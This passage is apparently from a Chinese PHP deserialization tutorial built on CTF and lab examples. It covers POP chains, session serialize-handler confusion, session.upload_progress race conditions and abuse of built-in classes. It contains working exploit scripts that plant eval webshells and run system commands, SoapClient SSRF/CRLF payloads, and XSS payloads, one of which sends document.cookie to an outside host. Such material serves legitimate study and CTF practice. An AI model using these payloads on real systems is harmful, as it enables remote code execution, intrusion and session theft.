    return $this->song->get_name() === $name;
  }
};
class User {
  static function addLyrics($lyrics) {
    $oldlyrics = array();
    if (isset($_COOKIE['lyrics'])) {
      $oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));
    }
    foreach ($lyrics as $lyric) $oldlyrics []= $lyric;
    setcookie('lyrics', base64_encode(serialize($oldlyrics)));
  }
  static function getLyrics() {
    if (isset($_COOKIE['lyrics'])) {
      return unserialize(base64_decode($_COOKIE['lyrics']));
    }
    else {
      setcookie('lyrics', base64_encode(serialize(array(1, 2))));
      return array(1, 2);
    }
  }
};
class Porter {
  static function exportData($lyrics) {
    return base64_encode(serialize($lyrics));
  }
  static function importData($lyrics) {
    return serialize(base64_decode($lyrics));
  }
};
class Conn {
  protected $conn;
  function __construct($dbuser, $dbpass, $db) {
    $this->conn = mysqli_connect("localhost", $dbuser, $dbpass, $db);
  }
  function getLyrics($lyrics) {
    $r = array();
    foreach ($lyrics as $lyric) {
      $s = intval($lyric);
      $result = $this->conn->query("SELECT data FROM lyrics WHERE id=$s");
      while (($row = $result->fetch_row()) != NULL) {
        $r []= unserialize(base64_decode($row[0]));
      }
    }
    return $r;
  }
  function addLyrics($lyrics) {
    $ids = array();
    foreach ($lyrics as $lyric) {
      $this->conn->query("INSERT INTO lyrics (data) VALUES (\"" . base64_encode(serialize($lyric)) . "\")");
      $res = $this->conn->query("SELECT MAX(id) FROM lyrics");
      $id= $res->fetch_row(); $ids[]= intval($id[0]);
    }
    echo var_dump($ids);
    return $ids; 
  }
  function __destruct() {
    $this->conn->close();
    $this->conn = NULL;
  }
};
unserialize($_GET['cmd']);
```


- 我们新建一个Lyrics对象
- 将它的song属性为Song对象
- Song对象的log属性填充成Logger对象
- 再把logger对象的logwriter的属性填充成LogWriter_File对象
- LogWriter_File的$format属性设置成OutputFilter
- OutputFilter里面的filter方法用preg_match写入一句话。


**payload**

```php
<?php
//require_once 'index.php';

class OutputFilter {
    protected $matchPattern;
    protected $replacement;
    function __construct($pattern, $repl) {
        $this->matchPattern = $pattern;
        $this->replacement = $repl;
    }
};


class LogWriter_File {
    protected $filename;
    protected $format;
    function __construct($filename, $format) {
        $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
        $this->format = $format;
    }
};

class Logger {
    protected $logwriter;//这里装入LogWriter_File对象
    function __construct($writer) {
        $this->logwriter = $writer;
    }
};


class LogFileFormat {
    protected $filters;
    protected $endl;
    function __construct($filters, $endl) {
        $this->filters = $filters;
        $this->endl = $endl;
    }
};


class Lyrics {
    protected $lyrics;
    protected $song;
    function __construct($lyrics, $song) {
        $this->song = $song;
        $this->lyrics = $lyrics;
    }
};

class Song {
    protected $logger;
    protected $name;
    protected $group;
    protected $url;
    function __construct($logger) {
        $this->name = '';
        $this->group = '';
        $this->logger = $logger;
    }
}

function CURL($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $output = curl_exec($ch);
    curl_close($ch);
    return $output;
}

$a = new Lyrics("aaa",new Song(new Logger(new LogWriter_File("shell.php",new LogFileFormat(array(new OutputFilter('/Song/','<?php @eval($_GET["drom"]);?>')),'\n')))));
CURL('http://127.0.0.1/lemon/index.php?cmd='.urlencode(serialize($a)));
echo CURL('http://127.0.0.1/lemon/shell.php?drom=readfile(\'/flag\');');
```


## 0x05 php session反序列化


### 简介

首先我们需要了解session反序列化是什么？
PHP在session存储和读取时,都会有一个序列化和反序列化的过程，PHP内置了多种处理器用于存取 $_SESSION 数据，都会对数据进行序列化和反序列化
在php.ini中有以下配置项，wamp的默认配置如图

[](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/12/20/PHP反序列化/1545234989274.png?raw=true)
[](https://github.com/twosmi1e/twosmi1e.github.io/blob/master/2018/12/20/PHP反序列化/1545235002297.png?raw=true)

`session.save_path` 设置session的存储路径
`session.save_handler` 设定用户自定义存储函数
`session.auto_start` 指定会话模块是否在请求开始时启动一个会话
`session.serialize_handler` 定义用来序列化/反序列化的处理器名字。默认使用php
除了默认的session序列化引擎php外，还有几种引擎，不同引擎存储方式不同

- php_binary 键名的长度对应的ASCII字符＋键名＋经过serialize() 函数反序列处理的值
- php 键名＋竖线＋经过serialize()函数反序列处理的值
- php_serialize serialize()函数反序列处理数组方式


### 存储机制

php中的session内容是以**文件**方式来存储的，由`session.save_handler`来决定。文件名由`sess_sessionid`命名，文件内容则为session序列化后的值。
来测试一个demo

```php
<?php
    ini_set('session.serialize_handler','php_serialize');
    session_start();

    $_SESSION['name'] = 'twosmi1e';
?>
```

运行后在配置文件设定的路径中会生成一个session文件


存储引擎为php时



存储引擎为php_binary时结果为


三种处理器的存储格式差异，就会造成在session序列化和反序列化处理器设置不当时的安全隐患。

如果在PHP在反序列化存储的$_SESSION数据时使用的引擎和序列化使用的引擎不一样，会导致数据无法正确第反序列化。通过精心构造的数据包，就可以绕过程序的验证或者是执行一些系统的方法。例如:

```php
$_SESSION['ryat'] = '|O:11:"PeopleClass":0:{}';
```

上述的$_SESSION的数据使用php_serialize，那么最后的存储的内容就是`a:1:{s:6:"spoock";s:24:"|O:11:"PeopleClass":0:{}";}`

但是我们在进行读取的时候，选择的是php，那么最后读取的内容是:

```php
array (size=1)
 'a:1:{s:6:"spoock";s:24:"' => 
 object(__PHP_Incomplete_Class)[1]
 public '__PHP_Incomplete_Class_Name' => string 'PeopleClass' (length=11)
```

这是因为当使用php引擎的时候，php引擎会以|作为作为key和value的分隔符，那么就会将`a:1:{s:6:"spoock";s:24:"`作为SESSION的key，将`O:11:"PeopleClass":0:{}`作为value，然后进行反序列化，最后就会得到PeopleClas这个类。


### 实际利用

#### 代码中可控session

存在s1.php和us2.php，2个文件所使用的SESSION的引擎不一样，就形成了一个漏洞、
s1.php，使用php_serialize来处理session

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

**us2.php,使用php来处理session**

```php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
 var $hi;
 function __construct(){
 $this->hi = 'phpinfo();';
 }
 
 function __destruct() {
  eval($this->hi);
 }
}
```

**当访问s1.php时，提交如下的数据：**

localhost/s1.php?a=|O:5:"lemon":1:{s:2:"hi";s:14:"echo "spoock";";}

此时传入的数据会按照php_serialize来进行序列化。

此时访问us2.php时，页面输出，spoock成功执行了我们构造的函数。因为在访问us2.php时，程序会按照php来反序列化SESSION中的数据，此时就会反序列化伪造的数据，就会实例化lemon对象，最后就会执行析构函数中的`eval()`方法。


#### 代码中不可控

当代码中不可控session时，可以利用session.upload_progress进行文件包含和反序列化


在php.ini有以下几个默认选项

1. session.upload_progress.enabled = on
2. session.upload_progress.cleanup = on
3. session.upload_progress.prefix = "upload_progress_"
4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
5. session.use_strict_mode=off这个选项默认值为off，表示我们对Cookie中sessionid可控。这一点至关重要。


- `enabled=on`表示`upload_progress`功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；

- `cleanup=on`表示当文件上传结束后，php将会立即清空对应session文件中的内容，这个选项非常重要；

- `name`当它出现在表单中，php将会报告上传进度，最大的好处是，它的值可控；

- `prefix+name`将表示为session中的键名


##### 利用session.upload_progress进行文件包含利用


```php
<?php
$b=$_GET['file'];
include "$b";
?>
```


可以发现，存在一个文件包含漏洞，但是找不到一个可以包含的恶意文件。其实，我们可以利用`session.upload_progress`将恶意语句写入session文件，从而包含session文件。前提需要知道session文件的存放位置。


**问题一**

代码里没有`session_start()`,如何创建session文件呢。

**解答一**

其实，如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session_start()。但默认情况下，这个选项都是关闭的。


但session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入sess_文件里。


**问题二**

但是问题来了，默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，


**解答二**

此时我们可以利用竞争，在session文件内容清空前进行包含利用。


**payload**

```python
#coding=utf-8
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('ls');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1/ss/index.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1/ss/index.php?file=/var/lib/php/sessions/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30):
            threading.Thread(target=write,args=(session,)).start()

        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```


##### 利用session.upload_progress进行反序列化攻击

### 测试环境

> php7.2
>
> ubuntu18.04
>
> `session.serialize_handler=php_serialize`，其余session相关配置为默认值  //session.upload_progress依赖php.ini

### 示例代码

```php
<?php
error_reporting(0);
date_default_timezone_set("Asia/Shanghai");
ini_set('session.serialize_handler','php');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle=new TimeNow();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
class  IP{
    public $ip;
    function __construct() {
        $this->ip = 'echo $_SERVER["REMOTE_ADDR"];';
    }
    function action() {
        eval($this->ip);
    }
}
?>
```


**问题一**

整个代码没有参数可控的地方。通过什么方法来进行反序列化利用呢

**解答一**

这里，利用`PHP_SESSION_UPLOAD_PROGRESS`上传文件，其中利用文件名可控，从而构造恶意序列化语句并写入session文件。

另外，与文件包含利用一样，也需要进行竞争。


首先利用exp.php脚本构造恶意序列化语句

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Door{
    public $handle;

    function __construct() {
        $this->handle = new IP();
    }

    function __destruct() {
        $this->handle->action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}

class  IP{
    public $ip;
    function __construct() {
        //$this->ip='payload';
        $this->ip='phpinfo();';
        //$this->ip='print_r(scandir('/'));';
    }
    function action() {
        eval($this->ip);
    }
}
$a=new Door();
$b=serialize($a);
$c=addslashes($b);
$d=str_replace("O:4:","|O:4:",$c);
echo $d;
?>
```

其此利用exp.py脚本进行竞争

```python
#coding=utf-8
import requests
import threading
import io
import sys

def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
            print('success!')
            

if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in xrange(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()

```

本地实测没有成功，session写入有问题。


### 例子1：写入session文件后反序列化

#### 安恒杯

**class.php**

```php
<?php

highlight_string(file_get_contents(basename($_SERVER['PHP_SELF'])));
//show_source(__FILE__);

class foo1{
 public $varr;
 function __construct(){
  $this->varr = "index.php";
 }
 function __destruct(){
  if(file_exists($this->varr)){
   echo "<br>文件".$this->varr."存在<br>";
  }
  echo "<br>这是foo1的析构函数<br>";
 }
}

class foo2{
 public $varr;
 public $obj;
 function __construct(){
  $this->varr = '1234567890';
  $this->obj = null;
 }
 function __toString(){
  $this->obj->execute();
  return $this->varr;
 }
 function __desctuct(){
  echo "<br>这是foo2的析构函数<br>";
 }
}

class foo3{
 public $varr;
 function execute(){
  eval($this->varr);
 }
 function __desctuct(){
  echo "<br>这是foo3的析构函数<br>";
 }
}

?>
```


**index.php**

```php
<?php

ini_set('session.serialize_handler', 'php');

require("./class.php");

session_start();

$obj = new foo1();

$obj->varr = "phpinfo.php";

?>
```

先构造链子

```php
<?php
//require_once "class.php";
class foo1{
    public $varr;
    function __construct($varr){
        $this->varr = $varr;
    }
}

class foo2{
    public $varr;
    public $obj;
    function __construct($obj)
    {
        $this->varr = '';
        $this->obj = $obj;
    }
}

class foo3{
    public $varr;
    function __construct($varr)
    {
        $this->varr = $varr;
    }
}

$a = new foo1(new foo2(new foo3("phpinfo();")));
echo serialize($a),"\n";
//O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:0:"";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:10:"phpinfo();";}}}
```

写入的方式主要是利用PHP中[Session Upload Progress](http://php.net/manual/en/session.upload-progress.php)来进行设置，具体为，在上传文件时，如果POST一个名为PHP_SESSION_UPLOAD_PROGRESS的变量，就可以将filename的值赋值到session中，上传的页面的写法如下：

```html
<form action="index.php" method="POST" enctype="multipart/form-data">
 <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
 <input type="file" name="file" />
 <input type="submit" />
</form>
```


最终写入的内容：

```php
|O:4:\"foo1\":1:{s:4:\"varr\";O:4:\"foo2\":2:{s:4:\"varr\";s:1:\"1\";s:3:\"obj\";O:4:\"foo3\":1:{s:4:\"varr\";s:12:\"var_dump(1);\";}}}
```


需要注意的是，在这道题的实践中发现，ini_set无法改变PHP_SESSION_UPLOAD_PROGRESS时序列化的方式，只有当php.ini文件中session.serialize_handler设置为php_serialize才能够以我们想要的格式存入session文件，再次访问index.php时，ini_set将反序列化引擎设置为php，这时候可以以php方式反序列化session文件。


另外，这道题没有开启cleanup，php中默认开启。如果开启后，可以使用条件竞争进行触发。


#### Jarvisoj Web

> 题目地址：http://web.jarvisoj.com:32784/index.php

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('sessiontest.php'));
}
?>
```


查看phpinfo中的几个关键值

- session.use_strict_mode	Off 表示我们可以控制session文件名

- session.upload_progress.enabled	On 表示我们可以通过文件上传写入session文件

- session.upload_progress.cleanup	Off 表示在上传成功后不会删除session文件，所以这道题不需要条件竞争

- session.upload_progress.name	PHP_SESSION_UPLOAD_PROGRESS 默认值

  


构造POST提交表单

```php
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```


payload：

```php
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```


- filename防止出错应该对双引号进行转义
- 再次访问的时候别忘了加上sessionid，不然每次都是新的session 


**python 脚本**

```

```


### 例子2：配合call_user_func修改session配置


#### LCTF 签到题

- 利用回调函数来覆盖session默认的序列化引擎。
- 序列化到原生类Soap对象，将序列化语句写入session文件
- b变量覆盖为call_user_func。
- 利用将对象与其方法构造成一个数组来进行函数调用，使得调用该对象的成员方法。这里是调用Soap的welcome_to_the_lctf2018方法，自然会触发__call
- 触发__call方法进行SSRF访问flag.php.
- 将flag写入session。题目会将session打印出来。


获取Soap对象的序列化语句

```php
<?php
$url = "http://127.0.0.1/flag.php";
$b = new SoapClient(null, array('uri' => $url, 'location' => $url));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo "|" . urlencode($a);
?>
```


burp发送

```http
POST /web/LCTF2018/babyrevenge/index.php?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A3%3A%7Bs%3A3%3A%22uri%22%3Bs%3A38%3A%22http%3A%2F%2F127.0.0.1%2Fweb%2FLCTF2018%2Fflag.php%22%3Bs%3A8%3A%22location%22%3Bs%3A38%3A%22http%3A%2F%2F127.0.0.1%2Fweb%2FLCTF2018%2Fflag.php%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D HTTP/1.1
Host: 192.168.1.22
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=rbtgu59dmpicqgk0ffkunogg1l
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

serialize_handler=php_serialize
```


直接访问


已经反序列化成了soap对象


```http
POST /web/LCTF2018/babyrevenge/?f=extract&name=SoapClient HTTP/1.1
Host: 192.168.1.22
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=rbtgu59dmpicqgk0ffkunogg1l; XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

b=call_user_func
```


再次访问可以触发soap，但是我本地环境一直不成功。


## 0x06 php反序列化扩展原生类利用


**查看php原生内置类的魔术方法。**此脚本稍作修改既可用于查找原生类中的同名函数。

```php
 <?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
} 
```

结果：

```php
Exception::__wakeup
Exception::__toString
ErrorException::__wakeup
ErrorException::__toString
Error::__wakeup
Error::__toString
ParseError::__wakeup
ParseError::__toString
TypeError::__wakeup
TypeError::__toString
ArithmeticError::__wakeup
ArithmeticError::__toString
DivisionByZeroError::__wakeup
DivisionByZeroError::__toString
Generator::__wakeup
ClosedGeneratorException::__wakeup
ClosedGeneratorException::__toString
DateTime::__wakeup
DateTime::__set_state
DateTimeImmutable::__wakeup
DateTimeImmutable::__set_state
DateTimeZone::__wakeup
DateTimeZone::__set_state
DateInterval::__wakeup
DateInterval::__set_state
DatePeriod::__wakeup
DatePeriod::__set_state
LogicException::__wakeup
LogicException::__toString
BadFunctionCallException::__wakeup
BadFunctionCallException::__toString
BadMethodCallException::__wakeup
BadMethodCallException::__toString
DomainException::__wakeup
DomainException::__toString
InvalidArgumentException::__wakeup
InvalidArgumentException::__toString
LengthException::__wakeup
LengthException::__toString
OutOfRangeException::__wakeup
OutOfRangeException::__toString
RuntimeException::__wakeup
RuntimeException::__toString
OutOfBoundsException::__wakeup
OutOfBoundsException::__toString
OverflowException::__wakeup
OverflowException::__toString
RangeException::__wakeup
RangeException::__toString
UnderflowException::__wakeup
UnderflowException::__toString
UnexpectedValueException::__wakeup
UnexpectedValueException::__toString
CachingIterator::__toString
RecursiveCachingIterator::__toString
SplFileInfo::__toString
DirectoryIterator::__toString
FilesystemIterator::__toString
RecursiveDirectoryIterator::__toString
GlobIterator::__toString
SplFileObject::__toString
SplTempFileObject::__toString
SplFixedArray::__wakeup
ReflectionException::__wakeup
ReflectionException::__toString
ReflectionFunctionAbstract::__toString
ReflectionFunction::__toString
ReflectionParameter::__toString
ReflectionType::__toString
ReflectionMethod::__toString
ReflectionClass::__toString
ReflectionObject::__toString
ReflectionProperty::__toString
ReflectionExtension::__toString
ReflectionZendExtension::__toString
AssertionError::__wakeup
AssertionError::__toString
DOMException::__wakeup
DOMException::__toString
PDOException::__wakeup
PDOException::__toString
PDO::__wakeup
PDOStatement::__wakeup
SimpleXMLElement::__toString
SimpleXMLIterator::__toString
CURLFile::__wakeup
mysqli_sql_exception::__wakeup
mysqli_sql_exception::__toString
PharException::__wakeup
PharException::__toString
Phar::__destruct
Phar::__toString
PharData::__destruct
PharData::__toString
PharFileInfo::__destruct
PharFileInfo::__toString
SoapClient::__call
SoapFault::__toString
SoapFault::__wakeup
```


### SoapClient构造ssrf和crlf


但是它仅限于http/https协议，可以构造post请求，导致ssrf。


这里http头部还存在crlf漏洞


```php
<?php
$poc = "CONFIG SET dir /root/";
$target = "http://example.com:5555/";
$b = new SoapClient(null,array('location' => $target,'uri'=>'hello^^'.$poc.'^^hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa); 
echo urlencode($aaa);

//Test
$c = unserialize($aaa);
$c->notexists();
```




对于如何发送POST的数据包，这里面还有一个坑，就是`content-type`的设置，当是可以看到上面的数据包，`user_agent`的头部是在`content-type`的下面，所以我们可以通过`SoapClient`来设置`user_agent`，再使用crlf将`content-type`给往下挤。


#### **来自wupco师傅构造任意post报文的poc:**

```php
<?php
$target = "http://example.com:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
```


#### 例子

LCTF2018 签到题


### Error类构造xss

```php
<?php
$a = new Error("<script>alert(1)</script>");
$b = serialize($a);
echo urlencode($b);

//Test
$t = urldecode('O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D');
$c = unserialize($t);
echo $c;
```


#### 例子


### Exception类构造xss

适用于php5、7版本

开启报错的情况下:

```php
<?php
$a = new Exception("<script>alert(1)</script>");
$b = serialize($a);
echo urlencode($b);

//Test
$c = urldecode('O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D');
echo unserialize($c);
```


#### 例子：BJDCTF 2rd XSS之光

Git泄露，用GitHack dump下来：

只有一个`index.php`文件：

```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```

> yds？？？杨大树？？？

Error类就是php的一个内置类用于自动自定义一个`Error`，在php7的环境下可能会造成一个`xss`漏洞，因为它内置有一个`toString`的方法。

> Exception类跟Error类原理一样，但是也适用于PHP5

我们先来验证一下：

POC

```php
<?php
$a = new Exception("<script>alert(1)</script>");
echo urlencode(serialize($a));
```

得到编码后的反序列化结果：

```
O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

成功触发XSS。

也可以直接打cookie：

```php
<?php
$s = '<script>var img=document.createElement("img");img.src="http://f7ffa642-8f7f-4879-bc49-e75d26e7c2bc.node3.buuoj.cn/a?"+escape(document.cookie);</script>';
echo serialize($s);
```


### 原生类同名函数：ZipArchive::open 文件写

首先先认识原生类同名函数的攻击漏洞，先假设我们有一个上传类如下

```php
<?php
class Upload{
    function upload($filename, $content){
        //这是一个你不能修改的文件, prprprpr
    }
    function open($filename, $content){
        //你还是不能修改, lololololol
    }
}
```


这个上传类被.htaccess文件控制的很死，难以上传我们的小马，即使成功上传了，也不能执行，只有删除了.htaccess文件才可以，那么我们要怎么利用呢
所以我们现在就是要先找到一个函数，能删除或者覆盖掉.htaccess文件，先搜索一波

```php
<?php
foreach (get_declared_classes() as $class){
    foreach (get_class_methods($class)  as $method){
        if ($method == "open"){
            echo "$class -> $method"."<br>";
        }
    }
}
```


这里搜索到三个函数

```php
SessionHandler -> open
ZipArchive -> open
XMLReader -> open
```


`ZipArchive::open`





可以看到`flag`参数有个`ZipArchive::OVERWRITE`模式，继续找它的官方介绍能看到

```
ZIPARCHIVE::OVERWRITE (integer)
总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖。
```


我们先测试一下
[](https://xi4or0uji.github.io/assets/serialize/14.png)
可以看到确实成功的删除了文件，因此我们就可以达到了删除固定文件的目的，也就摆脱了.htaccess文件的限制了


#### 例子


### GlobIterator：目录枚举

危害：

- 可以达到目录遍历的效果


#### 例子：红日代码审计day3 ctf题

```php
<?php
class NotFound{
    function __construct()
    {
        die('404');
    }
}
spl_autoload_register(
    function ($class){
        new NotFound();
    }
);
$classname = isset($_GET['name']) ? $_GET['name'] : null;
$param = isset($_GET['param']) ? $_GET['param'] : null;
$param2 = isset($_GET['param2']) ? $_GET['param2'] : null;
if(class_exists($classname)){
    $newclass = new $classname($param,$param2);
    var_dump($newclass);
    foreach ($newclass as $key=>$value)
        echo $key.'=>'.$value.'<br>';
}
```


**The GlobIterator class**

(PHP 5 >= 5.3.0, PHP 7)


遍历一个文件系统行为类似于 [glob()](https://www.php.net/manual/zh/function.glob.php).

```php
GlobIterator extends FilesystemIterator implements SeekableIterator , Countable {
/* 方法 */
public __construct ( string $pattern [, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO ] )
public count ( void ) : int
/* 继承的方法 */
public FilesystemIterator::__construct ( string $path [, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO | FilesystemIterator::SKIP_DOTS ] )
public FilesystemIterator::current ( void ) : mixed
public FilesystemIterator::getFlags ( void ) : int
public FilesystemIterator::key ( void ) : string
public FilesystemIterator::next ( void ) : void
public FilesystemIterator::rewind ( void ) : void
public FilesystemIterator::setFlags ([ int $flags ] ) : void
}
```


主要关注GlobIterator的__construct方法

```php
public GlobIterator::__construct ( string $pattern [, int $flags = FilesystemIterator::KEY_AS_PATHNAME | FilesystemIterator::CURRENT_AS_FILEINFO ] )
```


这里用到CURRENT_AS_FILEINFO，其值为0.`const integer CURRENT_AS_FILEINFO = 0 ;`


payload：

`http://127.0.0.1/PHP-Audit-Labs/day/day3/CTF/?name=GlobIterator&param=./*.php&param2=0`


可以看到使用glob协议访问目录


我们将会发现flag的文件名为 **f1agi3hEre.php** ，接下来我们使用内置类 **SimpleXMLElement** 读取 **f1agi3hEre.php** 文件的内容。


### SimpleXMLElement：XXE

此类是PHP SimpleXML扩展的一部分，该扩展可在大多数PHP安装中使用。实例化的对象时`SimpleXMLElement`，传递给其构造函数的数据将解析为XML


利用条件：

- xmllib库为存在漏洞的版本
- 有实例化对象的点即可

危害（xxe）：

- 任意文件读取
- SSRF

```php
